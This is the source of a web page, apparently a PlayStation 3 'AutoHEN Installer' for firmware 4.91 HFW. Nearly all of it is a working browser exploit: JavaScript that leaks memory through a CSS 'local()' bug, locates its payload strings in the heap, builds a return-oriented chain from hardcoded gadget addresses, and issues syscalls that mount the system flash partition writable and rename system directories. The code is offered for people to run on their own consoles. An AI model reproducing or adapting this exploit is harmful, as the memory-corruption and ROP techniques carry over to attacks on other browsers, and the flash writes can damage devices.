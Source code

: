 # Auto-Hen-By-AMS9STORE
Playstation 3 


<title>AutoHEN Installer</title>
<center>
<h1>AutoHEN Installer (4.91 HFW)</h1>
<hr>
<div id="result"></div>
<div id="exploit"></div>
<div id="trigger" style="display: none;"></div>
<script>
var sf_swap_addr=0x1588393,xtra_data,stack_frame,jump_2,jump_1,xtra_data_addr,stack_frame_addr,jump_2_addr,jump_1_addr,offset_array=[],t_out=0,search_max_threshold,search_base,search_size,search_base_off=0,search_size_ext=0,gtemp_addr=0x8D000000,total_loops=0,max_loops=20,frame_fails=0,sp_exit=0x8FD8DCC0,ffs=4294967295,dbyte41=16705,dbyte00=0,byte_size=1,hword_size=2,word_size=4,dword_size=8,mbytes=1048576,stat_size_offset=40,toc_addr=0x6F5558,gadget1_addr=0x097604,gadget8_addr=0x020000,gadget_mod1_addr=0x60EFD8,gadget_mod2_addr=0x013B74,gadget_mod3_addr=0x0B8E00,gadget_mod4b_addr=0x42C778,gadget_mod4c_addr=0x054AF0,gadget_mod9_addr=0x010B20,gadget_mod4a_addr=0x0D9684,gadget_mod7_addr=0x01A6AC,gadget_mod8_addr=0x2BACB8,gadget12_addr=0x0C864C,ua = navigator.userAgent,fwv = ua.substring(ua.indexOf("5.0 (") + 19, ua.indexOf(") Apple")),base_file="/dev_hdd0/theme/HEN.P3T",fail_msg_frag="<h2><span style='color:red'>Initialization failed. Close the browser and try again.</span></h2>",progress_msg_frag1="<h2>Initializing... ",progress_msg_frag2='%</h2>',flash_partition='xxxxCELL_FS_IOS:BUILTIN_FLSH1',filesystem='CELL_FS_FAT',mount_path='/dev_blind',gadget9_addr=0x029B08,gadget10_addr=0x62E024,gadget11_addr=0x59A4B0,gadget12_addr=0x0C864C,gadget13_addr=0x48E5A8,gadget14_addr=0x48C7A0,gadget15_addr=0x489C88,gadget_mod1_addr=0x60EFD8,gadget_mod2_addr=0x013B74,gadget_mod3_addr=0x0B8E00,gadget_mod4a_addr=0x0D9684,gadget_mod4b_addr=0x42C778,gadget_mod4c_addr=0x054AF0,gadget_mod5_addr=0x4238DC,gadget_mod6_addr=0x020C00,gadget_mod7_addr=0x01A6AC,gadget_mod8_addr=0x2BACB8,gadget_mod9_addr=0x010B20,gadget_mod10_addr=0x1C5794,gadget_mod11_addr=0x18B144,gadget_mod12_addr=0x6331FC,gadget_mod13_addr=0x336870,gadget_mod14_addr=0x633900,gadget_mod15_addr=0x39D038,gadget_mod16_addr=0x4F732C;
function store_word(store_offset,val,r29out,r30out,r31out)
{
	r29out=gtemp_addr;
	r30out=gtemp_addr;
	r31out=gtemp_addr;
	return hexdw2bin(gadget_mod3_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(val)+fill_by_8bytes(0x8,dbyte41)+hexdw2bin(store_offset-0xC74)+fill_by_16bytes(0x10,dbyte41)
	+hexdw2bin(gadget_mod7_addr)+fill_by_16bytes(0x70,dbyte41)+hexdw2bin(r29out)+hexdw2bin(r30out)+hexdw2bin(r31out)+hexdw2bin(sp_exit)+fill_by_8bytes(0x8,dbyte41);
}
function s2hex(str)
{
    var hex = [];
    var  i = 0;
    for (;i < str.length; i++) {
        hex.push(hex16(str.charCodeAt(i).toString(16)));
    }
    return hex.join("");
}
function hex16(s)
{
    return ('0000' + s).slice(-4)
}
function stack_frame_swap(new_stack_addr)
{
	return hexdw2bin(gadget_mod2_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+hexdw2bin(new_stack_addr)+fill_by_8bytes(0x8,dbyte41)+hexdw2bin(gadget_mod9_addr);
}
function showMsg(str)
{
	document.getElementById('result').innerHTML=str;
}
function syscall_r3_p2p(sc,r3_ptr,r4,r5,r6,r7,r8,r9,r10,r31out)
{
	if(r31out===null){r31out=gtemp_addr;}
	return hexdw2bin(gadget_mod2_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(gadget_mod1_addr)+fill_by_16bytes(0x50,dbyte41)+fill_by_4bytes(0xC,dbyte41)
	+hexw2bin(sc)+hexw2bin(r10)+hexw2bin(r8)+hexw2bin(r7)+hexw2bin(r6)+hexw2bin(r5)+hexw2bin(r4)+fill_by_4bytes(0x4,dbyte41)+hexw2bin(r9)+fill_by_16bytes(0x20,dbyte41)+hexdw2bin(r3_ptr)
	+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(gadget_mod4b_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(r31out)+hexdw2bin(sp_exit)+fill_by_8bytes(0x8,dbyte41);
}
function syscall_r3r5_p2p(sc,r3_ptr,r4,r5_ptr,r6,r7,r8,r9,r10,r31out)
{
	if(r31out===null){r31out=gtemp_addr;}
	return hexdw2bin(gadget_mod2_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(gadget_mod1_addr)+fill_by_16bytes(0x50,dbyte41)+fill_by_4bytes(0xC,dbyte41)
	+hexw2bin(sc)+hexw2bin(r10)+hexw2bin(r8)+hexw2bin(r7)+hexw2bin(r6)+fill_by_4bytes(0x4,dbyte41)+hexw2bin(r4)+fill_by_4bytes(0x4,dbyte41)+hexw2bin(r9)+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(r5_ptr-0x4)+hexdw2bin(gtemp_addr)+fill_by_8bytes(0x18,dbyte41)
	+hexdw2bin(gadget_mod4c_addr)+fill_by_16bytes(0xB0,dbyte41)+hexdw2bin(r3_ptr)+fill_by_16bytes(0x10,dbyte41)
	+hexdw2bin(gadget_mod4b_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(r31out)+hexdw2bin(sp_exit)+fill_by_8bytes(0x8,dbyte41);
}
function hexh2bin(hex_val)
{
	return String.fromCharCode(hex_val);
}
function hexw2bin(hex_val)
{
	return String.fromCharCode(hex_val >> 16) + String.fromCharCode(hex_val);
}
function hexdw2bin(hex_val)
{
	return hexw2bin(0) + hexw2bin(hex_val);
}
String.prototype.toHex16 = function()
{
	return ('0000' + this).substr(-4);
};
String.prototype.toAscii = function(hex_16)
{
    var ascii='';
	var i=0;
	while(i<this.length){if(hex_16===true){ascii += this.charCodeAt(i).toString(16).toHex16();} else {ascii += this.charCodeAt(i).toString(16);}i+=1;}
	return ascii;
};
String.prototype.convert=function(ascii)
{
	if(this.length<1){return '';}
	var asciistr='';var asciichr='';var i=0;var ret=[];
	if(ascii===true){asciistr = this;}
	else {asciistr = this.toAscii();}
	while((asciistr.length%4)!==0){asciistr+='00';}
	if(asciistr.substr(asciistr.length-3,2)!=='00'){asciistr+='0000';}
    while(i<asciistr.length){
		asciichr = asciistr.substr(i, 4);
		ret.push(String.fromCharCode(parseInt(asciichr, 16)));
		i+=4;
    }
    return ret.join('');
};
String.prototype.convertedSize = function(ascii)
{
	if(this.length<1){return 0;}
	var asciistr='';
	if(ascii===true){asciistr=this;}
	else {asciistr = this.toAscii();}
	while((asciistr.length%4)!==0){asciistr+='00';}
	if(asciistr.substr(asciistr.length-3,2)!=='00'){asciistr+='0000';}
	return asciistr.length/2;
};
String.prototype.replaceAt=function(index, ch)
{
	return this.substr(0,index)+ch+this.substr(index+ch.length);
};
String.prototype.repeat = function(num)
{
    return new Array(num+1).join(this);
};
Number.prototype.noExponents=function()
{
    var data= String(this).split(/[eE]/);
    if(data.length===1) {return data[0];}
    var  z= '', sign= this<0? '-':'',
    str= data[0].replace('.', ''),
    mag= Number(data[1])+ 1;
    if(mag<0){
        z= sign+'0.';
        while(mag++){z+='0';}
        return z+str.replace(/^\-/,'');
    }
    mag -= str.length;  
    while(mag--) {z += '0';}
    return str + z;
};
function fromIEEE754(bytes, ebits, fbits)
{
	var retNumber=0;
	var bits=[];
	var i;
	var j;
	var byte;
	for (i=bytes.length;i;i-=1)
	{
		byte=bytes[i-1];
		for(j=8;j;j-=1)
		{
			bits.push(byte % 2 ? 1 : 0); byte = byte >> 1;
		}
	}
	bits.reverse();
	var str = bits.join('');
	var bias = (1 << (ebits - 1)) - 1;
	var s = parseInt(str.substring(0, 1), 2) ? -1 : 1;
	var e = parseInt(str.substring(1, 1 + ebits), 2);
	var f = parseInt(str.substring(1 + ebits), 2);
	if (e === (1 << ebits) - 1)
	{
		retNumber = f !== 0 ? NaN : s * Infinity;
	}
	else if (e > 0)
	{
		retNumber = s * Math.pow(2, e - bias) * (1 + f / Math.pow(2, fbits));
	}
	else if (f !== 0)
	{
		retNumber = s * Math.pow(2, -(bias-1)) * (f / Math.pow(2, fbits));
	}
	else
	{
		retNumber = s * 0;
	}
	return retNumber.noExponents();
}
function generateIEEE754(address, size)
{
	var hex = new Array
	(
		(address >> 24) & 0xFF,
		(address >> 16) & 0xFF,
		(address >> 8) & 0xFF,
		(address) & 0xFF,
		
		(size >> 24) & 0xFF,
		(size >> 16) & 0xFF,
		(size >> 8) & 0xFF,
		(size) & 0xFF
	);
	return fromIEEE754(hex, 11, 52);
}
function generateExploit(address, size)
{
	var n = (address<<32) | ((size>>1)-1);
	return generateIEEE754(address, (n-address));
}
function readMemory(address, size)
{
	if(document.getElementById('exploit')){document.getElementById('exploit').style.src = "local(" + generateExploit(address, size) + ")";}
}
function checkMemory(address, size, len)
{
	if(document.getElementById('exploit'))
	{
		readMemory(address, size);
		return document.getElementById('exploit').style.src.substr(6,len);
	}
}
function trigger(exploit_addr){
	if(document.getElementById('trigger')){document.getElementById("trigger").innerHTML = -parseFloat("NAN(ffffe" + exploit_addr.toString(16) + ")");}
	if (document.getElementById('trigger').innerHTML.indexOf("NaN") != -1){HFWmsg();}
}
function load_check()
{
	if(total_loops<max_loops)
	{
		showMsg(progress_msg_frag1+((100/max_loops)*total_loops).toString()+progress_msg_frag2);
		t_out=setTimeout(initROP,100,false);
	}
	else
	{
		total_loops=0;
		showMsg(fail_msg_frag);
		t_out=0;
	}
}
function findJsVariableOffset(name,exploit_data,base,size,end)
{
    var block = 0;
    while((base + block * size) < end)
    {
        readMemory(base + block * size, size);
        var offset = document.getElementById('exploit').style.src.substr(6,size).indexOf(exploit_data);
        if(offset > 0)
        {
            return base + block * size + (offset * 2) + 4;
        }
        
        block++;
    }
    return 0;
}
function stack_frame_hookup()
{
	return unescape("\u4141\u2A2F")+hexw2bin(gadget1_addr)+hexw2bin(toc_addr)+fill_by_16bytes(0x20,dbyte41)+hexdw2bin(toc_addr)+fill_by_16bytes(0x70,dbyte41);
}
function stack_frame_exit()
{
	return hexdw2bin(gadget_mod8_addr)+unescape("\u2F2A");
}
function syscall(sc,r3,r4,r5,r6,r7,r8,r9,r10,r31out)
{
	if(r31out===null){r31out=gtemp_addr;}
	return hexdw2bin(gadget_mod2_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(gadget_mod1_addr)+fill_by_16bytes(0x50,dbyte41)+fill_by_4bytes(0xC,dbyte41)+hexw2bin(sc)+hexw2bin(r10)
	+hexw2bin(r8)+hexw2bin(r7)+hexw2bin(r6)+hexw2bin(r5)+hexw2bin(r4)+fill_by_4bytes(0x4,dbyte41)+hexw2bin(r9)+fill_by_16bytes(0x20,dbyte41)+hexdw2bin(r3)+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(gadget_mod2_addr)
	+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(gtemp_addr)+fill_by_16bytes(0x10,dbyte41)+hexdw2bin(gadget_mod4a_addr)+fill_by_16bytes(0x60,dbyte41)+hexdw2bin(r31out)+hexdw2bin(sp_exit)+fill_by_8bytes(0x8,dbyte41);
}
function fill_by_4bytes(nbytes,hex_val)
{
	var stemp='';var iterator=0;var tmp=hexh2bin(hex_val);
	while(iterator<nbytes/4){stemp+=tmp.repeat(2);iterator++;}
	return stemp;
}
function fill_by_8bytes(nbytes,hex_val)
{
	var stemp='';var iterator=0;var tmp=hexh2bin(hex_val);
	while(iterator<nbytes/8){stemp+=tmp.repeat(4);iterator++;}
	return stemp;
}
function fill_by_16bytes(nbytes,hex_val)
{
	var stemp='';var iterator=0;var tmp=hexh2bin(hex_val);
	while(iterator<nbytes/16){stemp+=tmp.repeat(8);iterator++;}
	return stemp;
}
function initROP(init)
{
	try
	{
		if(init===true){frame_fails=0;search_base_off=0;search_size_ext=0;}
		if(t_out!==0){clearTimeout(t_out);t_out=0;}
		offset_array=[];
		xtra_data_addr=0;
		stack_frame_addr=0;
		jump_2_addr=0;
		jump_1_addr=0;
		var base_file_addr=0,index_key_addr=0,search_max_threshold=70*0x100000,search_base=0x80100000,search_size=2*mbytes;
		search_size_ext=0*mbytes;
		search_base_off=0*mbytes;
		total_loops++;

		xtra_data="xxxx".convert()
		+flash_partition.convert()
		+base_file.convert()
		+filesystem.convert()
		+mount_path.convert()
		// Only needed for HEN directories
		+unescape("\u0000\u0000")
		+"/dev_blind/vsh/resource/silk/xai/widgets/informationboard".convert()
		+"/dev_blind/vsh/resource/silk/xai/widgets".convert()
		+"/dev_blind/vsh/resource/silk/xai".convert()
		+"/dev_blind/vsh/resource/AAA".convert()
		+unescape("\uFD7E");

		while(xtra_data_addr===0)
		{
			if(search_max_threshold<search_size){load_check();return;}
			xtra_data=xtra_data.replaceAt(0,hexh2bin(0x7EFD));
			xtra_data_addr=findJsVariableOffset("xtra_data",xtra_data,search_base,search_size,search_base+search_max_threshold);
			search_max_threshold-=search_size;
		}

		flash_partition_addr=xtra_data_addr+0x6;
		base_file_addr=flash_partition_addr+flash_partition.convertedSize()-0x4;
		fs_addr=base_file_addr+base_file.convertedSize();
		mount_path_addr=fs_addr+filesystem.convertedSize();

		hen_renamedir_addr1=xtra_data_addr+0x5A;
		hen_renamedir_addr2=xtra_data_addr+0x96;
		hen_renamedir_addr3=xtra_data_addr+0xC0;
		hen_renamedir_addr4=xtra_data_addr+0xE2;

		stack_frame=stack_frame_hookup()
		+syscall(0x345,flash_partition_addr,fs_addr,mount_path_addr,0,0,0,0,0)
		+store_word(0x8a000004+sf_swap_addr,sp_exit)
		+store_word(0x8a000014+sf_swap_addr,gadget_mod8_addr)
		+syscall(0x321,base_file_addr,0x0,0x8e000000,0,0,0,0,0)
		+syscall_r3r5_p2p(0x322,0x8e000000,0x8a000000,0x11000,0x8e000008,0,0,0,0,0,0)
		+syscall(0x32E,base_file_addr,0,0,0,0,0,0,0)

		// Must be changed depending on external stack frame (HEN only)
		+syscall(0x32C,hen_renamedir_addr1,0x8a000000+0x1587FB3,0,0,0,0,0,0) // /dev_blind/hen
		+syscall(0x32C,hen_renamedir_addr2,0x8a000000+0x1587FE6,0,0,0,0,0,0) // /dev_blind/hen/xml
		+syscall(0x32C,hen_renamedir_addr3,0x8a000000+0x1587FD1,0,0,0,0,0,0) // /dev_blind/hen/remap
		+syscall(0x32C,hen_renamedir_addr4,0x8a000000+0x1587FF9,0,0,0,0,0,0) // /dev_blind/hen/remap/xml

		+stack_frame_swap(0x8a000000+sf_swap_addr)
		+stack_frame_exit();

		while(stack_frame_addr===0)
		{
			if(search_max_threshold<search_size+search_size_ext){frame_fails++;if((frame_fails%10)===0){search_base_off+=0;search_size_ext+=0;}load_check();return;}
			stack_frame=stack_frame.replaceAt(0,hexh2bin(0x2A2F));
			stack_frame_addr=findJsVariableOffset("stack_frame",stack_frame,search_base+search_base_off,search_size+search_size_ext,search_base+search_max_threshold);
			if(stack_frame_addr==-1)if(search_max_threshold<search_size+search_size_ext){frame_fails++;load_check();return;}
			search_max_threshold-=search_size+search_size_ext;
		}

		jump_2=unescape("\u0102\u7EFB")+fill_by_16bytes(0x30,0x8282)+hexw2bin(stack_frame_addr)+unescape("\uFB7E");		
		while(jump_2_addr===0)
		{
			if(search_max_threshold<search_size){load_check();return;}
			jump_2=jump_2.replaceAt(0,hexh2bin(0x7EFB));
			jump_2_addr=findJsVariableOffset("jump_2",jump_2,search_base,search_size,search_base+search_max_threshold);
			if(jump_2_addr==-1)if(search_max_threshold<search_size){load_check();return;}
			search_max_threshold-=search_size;
		}

		jump_1=unescape("\u4141\u7EFA")+hexw2bin(jump_2_addr)+unescape("\uFA7E");
		while(jump_1_addr===0)
		{
			if(search_max_threshold<search_size){load_check();return;}
			jump_1=jump_1.replaceAt(0,hexh2bin(0x7EFA));
			jump_1_addr=findJsVariableOffset("jump_1",jump_1,search_base,search_size,search_base+search_max_threshold);
			if(jump_1_addr==-1)if(search_max_threshold<search_size){load_check();return;}
			search_max_threshold-=search_size;
		}

		var sf=checkMemory(stack_frame_addr-0x4,0x10000,stack_frame.length);
		var x=checkMemory(xtra_data_addr-0x4,0x2000,xtra_data.length);
		var j2=checkMemory(jump_2_addr-0x4,0x2000,jump_2.length);
		var j1=checkMemory(jump_1_addr-0x4,0x2000,jump_1.length);

		if((j2===jump_2)&&(j1===jump_1)&&(x===xtra_data)&&(sf===stack_frame))
		{
			if(t_out!==0){clearTimeout(t_out);}
			showMsg('<h2>Downloading setup file...</h2>');
			window.location.href = 'HEN.P3T';
			setTimeout(listener,1500);
		}
		else
		{
			load_check();
		}
	}
	catch(e)
	{

	}
}
function listener()
{
	var myListener = function ()
	{
		document.removeEventListener('mousemove', myListener, false);
		showMsg('<h2>Installing HEN, please wait...</h2>');
		triggerX();
	};
	document.addEventListener('mousemove', myListener, false);
}
function triggerX()
{
	setTimeout(trigger,50,jump_1_addr);
	setTimeout(showMsg,2000,"<h2><span style='color:red'>Failed to load setup file. Close the browser and try again.</span></h2>");
	t_out=0;
	total_loops=0;
}
function HFWmsg()
{
	showMsg("<h2><span style='color:red'>You must install Hybrid Firmware (HFW) 4.91 before installing HEN!</h2></span>");
	throw new Error('');
}
if(fwv=="4.91"){initROP(true)}else{HFWmsg()}
</script>

